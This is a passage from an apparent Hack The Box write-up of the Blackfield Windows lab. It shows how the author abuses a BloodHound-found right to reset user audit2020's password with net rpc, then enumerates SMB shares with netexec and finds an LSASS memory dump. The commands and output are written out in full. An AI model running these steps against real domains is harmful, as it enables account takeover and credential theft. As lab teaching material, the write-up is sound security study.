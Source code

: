 After collecting the data, we can start the neo4j database and feed the data to BloodHound. I started the analysis from the newly obtained user `support` and found that the user can change the password of another user `audit2020`.

![Image Description](/images/Pasted%20image%2020250125143634.png)

Let's change the password of user `audit2020`. I do this using **net rpc** command to change the password to something easy, like `Password123`. I then verified if the change is successful using **netexec**.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/bloodhound]
└─$ net rpc password 'audit2020' 'Password123' -U 'BLACKFIELD.local'/'support'%'#00^BlackKnight' -S 10.10.10.192

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/bloodhound]
└─$ netexec smb 10.10.10.192 -u 'audit2020' -p 'Password123'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:Password123
```

###### SMB enumeration
Let's check the SMB access of `audit2020`. Turns out now we have read access to the `forensic` share.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/bloodhound]
└─$ netexec smb 10.10.10.192 -u 'audit2020' -p 'Password123' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:Password123
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

I connected to the share with **smbclient** and found an interesting file *lsass.zip*, which seems to be a memory dump of the LSASS. However, the file is too large for us to download directly as it returns this error: `parallel_read returned NT_STATUS_IO_TIMEOUT`. 

```
smb: \memory_analysis\> get lsass.zip
parallel_read returned NT_STATUS_IO_TIMEOUT
```
